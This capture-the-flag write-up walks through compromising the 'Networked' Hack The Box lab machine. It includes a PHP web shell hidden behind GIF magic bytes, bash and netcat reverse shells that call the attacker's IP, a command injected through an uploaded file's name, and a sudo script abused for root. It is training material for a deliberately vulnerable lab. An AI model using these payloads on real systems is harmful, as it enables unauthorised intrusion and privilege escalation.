




---
search:
  exclude: true
---
# Writeup

## Networked Introduction :

Networked is an easy Linux box that was released back in August 2019.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ root [ 10.10.14.7/23 ] [nihilist/_HTB/Networked]
      → nmap -F 10.10.10.146
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-18 10:28 GMT
      Nmap scan report for 10.10.10.146
      Host is up (0.099s latency).
      Not shown: 97 filtered ports
      PORT    STATE  SERVICE
      22/tcp  open   ssh
      80/tcp  open   http
      443/tcp closed https
    
      Nmap done: 1 IP address (1 host up) scanned in 2.67 seconds
    
      λ nihilist [ 10.10.14.7/23 ] [~/_HTB/Networked]
      → nmap -sCV -p22,80 10.10.10.146
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-18 10:28 GMT
      Nmap scan report for 10.10.10.146
      Host is up (0.098s latency).
    
      PORT   STATE SERVICE VERSION
      22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
      | ssh-hostkey:
      |   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
      |   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
      |_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
      80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
      |_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
      |_http-title: Site doesn't have a title (text/html; charset=UTF-8).
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 10.84 seconds
    

## **Part 2 : Getting User Access**

Let's investigate the webservice running on port 80 using the curl command with the -sk flags.
    
    
      λ root [ 10.10.14.7/23 ] [nihilist/_HTB/Networked]
      → curl -sk http://10.10.10.146
      <****html> <****body>
      Hello mate, we're building the new FaceMash! <****/br>
      Help by funding us and be the new Tyler &Cameron;!<****/br>
      Join us at the pool party this Sat to get a glimpse
      <****/body> <****/html>

Not much to see on the index page, so let's launch dirsearch to enumerate what directories we can find on the box. 
    
    
      λ nihilist [ 10.10.14.7/23 ] [~/_HTB/Networked]
    → dirsearch -u http://10.10.10.146/ -e txt,html,js,php -t 50
    git clone https://github.com/maurosoria/dirsearch.git
    dirsearch -u  -e  -t 50 -x 500
    
     _|. _ _  _  _  _ _|_    v0.3.9
    (_||| _) (/_(_|| (_| )
    
    Extensions: txt, html, js, php | HTTP method: get | Threads: 50 | Wordlist size: 7126
    
    Error Log: /home/nihilist/Desktop/Tools/dirsearch/logs/errors-20-02-18_10-32-21.log
    
    Target: http://10.10.10.146/
    
    [10:32:21] Starting:
    [10:32:24] 403 -  213B  - /.ht_wsr.txt
    [10:32:24] 403 -  215B  - /.htaccess-dev
    [10:32:24] 403 -  217B  - /.htaccess-local
    [10:32:24] 403 -  206B  - /.hta
    [10:32:24] 403 -  217B  - /.htaccess-marco
    [10:32:24] 403 -  215B  - /.htaccess.BAK
    [10:32:24] 403 -  216B  - /.htaccess.bak1
    [10:32:24] 403 -  216B  - /.htaccess.orig
    [10:32:24] 403 -  215B  - /.htaccess.old
    [10:32:24] 403 -  216B  - /.htaccess.save
    [10:32:24] 403 -  218B  - /.htaccess.sample
    [10:32:24] 403 -  215B  - /.htaccess.txt
    [10:32:24] 403 -  217B  - /.htaccess_extra
    [10:32:24] 403 -  216B  - /.htaccess_orig
    [10:32:24] 403 -  214B  - /.htaccess_sc
    [10:32:24] 403 -  214B  - /.htaccessBAK
    [10:32:24] 403 -  214B  - /.htaccessOLD
    [10:32:24] 403 -  215B  - /.htaccessOLD2
    [10:32:24] 403 -  212B  - /.htaccess~
    [10:32:24] 403 -  210B  - /.htgroup
    [10:32:24] 403 -  215B  - /.htpasswd-old
    [10:32:24] 403 -  216B  - /.htpasswd_test
    [10:32:24] 403 -  212B  - /.htpasswds
    [10:32:24] 403 -  210B  - /.htusers
    [10:32:34] 301 -  235B  - /backup  ->  http://10.10.10.146/backup/
    [10:32:34] 200 -  885B  - /backup/
    [10:32:35] 403 -  210B  - /cgi-bin/
    [10:32:39] 200 -  229B  - /index.php
    [10:32:39] 200 -  229B  - /index.php/login/
    [10:32:48] 200 -  169B  - /upload.php
    [10:32:48] 301 -  236B  - /uploads  ->  http://10.10.10.146/uploads/
    [10:32:48] 200 -    2B  - /uploads/
    

here we have a few interesting results : /backup , /upload.php and /uploads/ , Let's move over to /upload.php and upload our nihilist.php which will basically grab the html GET Variable "nihilist" and pass it to the system command which will execute it.
    
    
      λ nihilist [ 10.10.14.7/23 ] [~/_HTB/Networked]
      → nano nihilist.py
    
    
    
      <****?php system($_GET['nihilist']); ?>

Uploading the php file we get an error message "invalid image file". Earlier on our dirsearch scan found the /backup/ directory so navigating there we see a file named backup.tar ready for us to download, so let's do so using wget.
    
    
      λ root [ 10.10.14.7/23 ] [nihilist/_HTB/Networked]
      → wget http://10.10.10.146/backup/backup.tar && exiftool backup.tar
      --2020-02-18 10:47:23--  http://10.10.10.146/backup/backup.tar
      Connecting to 10.10.10.146:80... connected.
      HTTP request sent, awaiting response... 200 OK
      Length: 10240 (10K) [application/x-tar]
      Saving to: ‘backup.tar’
    
      backup.tar          100%[==================>]  10.00K  --.-KB/s    in 0.004s
    
      2020-02-18 10:47:23 (2.26 MB/s) - ‘backup.tar’ saved [10240/10240]
    
      ExifTool Version Number         : 11.86
      File Name                       : backup.tar
      Directory                       : .
      File Size                       : 10 kB
      File Modification Date/Time     : 2019:07:09 12:33:42+01:00
      File Access Date/Time           : 2020:02:18 10:47:23+00:00
      File Inode Change Date/Time     : 2020:02:18 10:47:23+00:00
      File Permissions                : rw-r--r--
      File Type                       : TAR
      File Type Extension             : tar
      MIME Type                       : application/x-tar
      Warning                         : Unsupported file type
    

so we get a regular tar file, let's just extract it with tar -xvf 
    
    
      λ root [ 10.10.14.7/23 ] [nihilist/_HTB/Networked]
      → tar -xvf backup.tar
      index.php
      lib.php
      photos.php
      upload.php
    

so we get a bunch of php files , now we are trying to see in what ways a user can interact with the server, so we'll use the following grep command and look at it's results 
    
    
      λ root [ 10.10.14.7/23 ] [nihilist/_HTB/Networked]
      → grep -Ri '$_' *
    
      Binary file backup.tar matches
      nihilist.php:
      lib.php:<****form action=" " method="post" enctype="multipart/form-data">
      photos.php:  if ((strpos($exploded[0], '10_10_') === 0) && (!($prefix === $_SERVER["REMOTE_ADDR"])) ) {
      upload.php:if( isset($_POST['submit']) ) {
      upload.php:  if (!empty($_FILES["myFile"])) {
      upload.php:    $myFile = $_FILES["myFile"];
      upload.php:    if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      upload.php:    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"];
      upload.php:    $name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;
    
      λ root [ 10.10.14.7/23 ] [nihilist/_HTB/Networked]
      → cat upload.php| grep type
        if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
    

Looking at the results, we see a few interesting variables , most notably the $_FILES global variable. we can also see that we must not upload a file that is too large, AND (&&) we need to make sure the check_file_type function allows us to proceed. so let's run the grep command again, this time looking for the check_file_type function :
    
    
    
      λ root [ 10.10.14.7/23 ] [nihilist/_HTB/Networked]
      → grep -Ri 'check_file_type(' *
      Binary file backup.tar matches
      lib.php:function check_file_type($file) {
    
        λ root [ 10.10.14.7/23 ] [nihilist/_HTB/Networked]
        → nano lib.php
    

Looking at the results, we see it's being used in both upload.php and lib.php 
    
    
      function check_file_type($file) {
        $mime_type = file_mime_type($file);
        if (strpos($mime_type, 'image/') === 0) {
            return true;
        } else {
            return false;
        }
      }
    

looking at the function, we see that the file_mime_type function basically checks for [magic bytes](https://blog.netspi.com/magic-bytes-identifying-common-file-formats-at-a-glance/) at the beginning of the uploaded file and seeing if it is actually an image. To test this , we can try and create our own false images :
    
    
      λ root [ 10.10.14.7/23 ] [nihilist/_HTB/Networked]
    → echo "GIF8;nihilist" > test.txt
    
    λ root [ 10.10.14.7/23 ] [nihilist/_HTB/Networked]
    → file test.txt
    test.txt: GIF image data 26723 x 2608
    
    
    
      λ root [ 10.10.14.7/23 ] [nihilist/_HTB/Networked]
      → nano nihilist.php
    
    
    
      GIF8;
    
    
    
      λ root [ 10.10.14.7/23 ] [nihilist/_HTB/Networked]
      → mv nihilist.php nihilist.php.gif
    

next up we upload it, and browse to it 

  

and from there, we can basically have command execution for example : 
    
    
    http://10.10.10.146/uploads/10_10_14_7.php.gif?nihilist=cat%20/etc/passwd
    
    root:x:0:0:root:/root:/bin/bash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/spool/mail:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin games:x:12:100:games:/usr/games:/sbin/nologin ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin nobody:x:99:99:Nobody:/:/sbin/nologin systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin dbus:x:81:81:System message bus:/:/sbin/nologin polkitd:x:999:998:User for polkitd:/:/sbin/nologin sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin postfix:x:89:89::/var/spool/postfix:/sbin/nologin guly:x:1000:1000:guly:/home/guly:/bin/bash saslauth:x:998:76:Saslauthd user:/run/saslauthd:/sbin/nologin apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin tcpdump:x:72:72::/:/sbin/nologin
    
    http://10.10.10.146/uploads/10_10_14_7.php.gif?nihilist=uname%20-a
    
    GIF8;Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
    
    
    http://10.10.10.146/uploads/10_10_14_7.php.gif?nihilist=bash -i >& /dev/tcp/10.10.14.7/9001 0>&1
    

Here we see that the previous URL does not work because we need to URL ENCODE the spaces, and & symbols, the spaces are + and the & are %26
    
    
    
    http://10.10.10.146/uploads/10_10_14_7.php.gif?nihilist=bash+-i+>%26+/dev/tcp/10.10.14.7/9001+0>%261
    

and we are catching the incoming reverse shell connection on our port 9001 : 
    
    
      λ root [ 10.10.14.7/23 ] [nihilist/_HTB/Networked]
      → nc -lvnp 9001
      listening on [any] 9001 ...
      connect to [10.10.14.7] from (UNKNOWN) [10.10.10.146] 56620
      bash: no job control in this shell
      bash-4.2$ uname -a
      uname -a
      Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
      bash-4.2$ cd /home/guly
    cd /home/guly
    bash-4.2$ ls -la
    ls -la
    total 28
    drwxr-xr-x. 2 guly guly 159 Jul  9  2019 .
    drwxr-xr-x. 3 root root  18 Jul  2  2019 ..
    lrwxrwxrwx. 1 root root   9 Jul  2  2019 .bash_history -> /dev/null
    -rw-r--r--. 1 guly guly  18 Oct 30  2018 .bash_logout
    -rw-r--r--. 1 guly guly 193 Oct 30  2018 .bash_profile
    -rw-r--r--. 1 guly guly 231 Oct 30  2018 .bashrc
    -rw-------  1 guly guly 639 Jul  9  2019 .viminfo
    -r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
    -rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
    -r--------. 1 guly guly  33 Oct 30  2018 user.txt
    
    bash-4.2$ uname -a
    uname -a
    Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
    bash-4.2$ whoami
    whoami
    apache
    
    

But we are not yet able to print the user flag, because we do not have enough permissions. we are currently the user apache, so we need to escalate privlieges to the guly user.
    
    
      bash-4.2$ cat check_attack.php
      cat check_attack.php
       $value) {
      	$msg='';
        if ($value == 'index.html') {
      	continue;
        }
        #echo "-------------\n";
    
        #print "check: $value\n";
        list ($name,$ext) = getnameCheck($value);
        $check = check_ip($name,$value);
    
        if (!($check[0])) {
          echo "attack!\n";
          # todo: attach file
          file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);
    
          exec("rm -f $logpath");
          exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
          echo "rm -f $path$value\n";
          mail($to, $msg, $msg, $headers, "-F$value");
        }
      }
    
      ?>
    

so here we have the php sourcecode of check_attack.php, and you can see that it has a dangerous function here exec("") which is like the system() function we used earlier, it can basically execute anything. So let's look at a line in particular : 
    
    
      exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    

here we can see that we have no control over anything in this line EXCEPT for the $value variable, which is basically the name of the file, let's navigate over to /var/www/html/uploads/ 
    
    
      bash-4.2$ cd /var/www/html/uploads
      cd /var/www/html/uploads
    
      bash-4.2$ nc -v
      nc -v
      Ncat: Version 7.50 ( https://nmap.org/ncat )
      Ncat: You must specify a host to connect to. QUITTING
    

From there, we see that netcat is available for us.

_Terminal 1:_
    
    
      bash-4.2$ touch -- ';nc -c bash 10.10.14.7 9002;.php'
      touch -- ';nc -c bash 10.10.14.7 9002;.php'
      bash-4.2$ ls
      ls
      10_10_14_7.php.gif  127_0_0_2.png  127_0_0_4.png		     index.html
      127_0_0_1.png	    127_0_0_3.png  ;nc -c bash 10.10.14.7 9002;.php
    

here we see that we have the filename we want, which will replace our previous $value and seamlessly give us another reverse shell. we ready our other terminal.

_Terminal 2:_
    
    
      λ nihilist [ 10.10.14.7/23 ] [~/_HTB]
      → nc -lvnp 9002
      listening on [any] 9002 ...
      connect to [10.10.14.7] from (UNKNOWN) [10.10.10.146] 50702
      uname -a
      Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
      python -c 'import pty;pty.spawn("/bin/bash")'
      [guly@networked ~]$
    

and now we have upgraded our reverse shell to a tty using python's pty.spawn() function 
    
    
      λ nihilist [ 10.10.14.7/23 ] [~/_HTB]
      → nc -lvnp 9002
      listening on [any] 9002 ...
      connect to [10.10.14.7] from (UNKNOWN) [10.10.10.146] 50708
      python -c 'import pty;pty.spawn("/bin/bash")'
      [guly@networked ~]$ cat /home/guly/user.txt
      cat /home/guly/user.txt
      52XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the user flag. 

## **Part 3 : Getting Root Access**

In order to privesc on a linux machine, a good reflex to have is to try out the sudo -l command
    
    
      [guly@networked ~]$ sudo -l
    sudo -l
    Matching Defaults entries for guly on networked:
        !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
        env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
        env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
        env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
        env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
        env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
        secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin
    
    User guly may run the following commands on networked:
        (root) NOPASSWD: /usr/local/sbin/changename.sh
    
        [guly@networked ~]$ ls -la /usr/local/sbin/changename.sh
        ls -la /usr/local/sbin/changename.sh
        -rwxr-xr-x 1 root root 422 Jul  8  2019 /usr/local/sbin/changename.sh
    

We see that the script changename.sh may be run as root with no password although as you can see from the result of our second command, we do not have the writing rights to it as it is owned by the root user, so let's check what it does : 
    
    
      [guly@networked ~]$ cat /usr/local/sbin/changename.sh
      cat /usr/local/sbin/changename.sh
      #!/bin/bash -p
      cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
      DEVICE=guly0
      ONBOOT=no
      NM_CONTROLLED=no
      EoF
    
      regexp="^[a-zA-Z0-9_\ /-]+$"
    
      for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
      	echo "interface $var:"
      	read x
      	while [[ ! $x =~ $regexp ]]; do
      		echo "wrong input, try again"
      		echo "interface $var:"
      		read x
      	done
      	echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
      done
    
      /sbin/ifup guly0
    

basically the vulnerability here is, that if we put a space in any of the variables, once the commands we want is being put in the config file, when the script is going to read it, it is going to execute our command for us , as root. 
    
    
      [guly@networked ~]$ sudo /usr/local/sbin/changename.sh
      sudo /usr/local/sbin/changename.sh
      interface NAME:
      nihilist
      nihilist
      interface PROXY_METHOD:
      nihilist
      nihilist
      interface BROWSER_ONLY:
      nihilist bash
      nihilist bash
      interface BOOTPROTO:
      TCP
      TCP
      [root@networked network-scripts]# cat /root/root.txt
      cat /root/root.txt
      0aXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to privesc, and print out the root flag !

## **Conclusion**

Here we can see the progress graph :

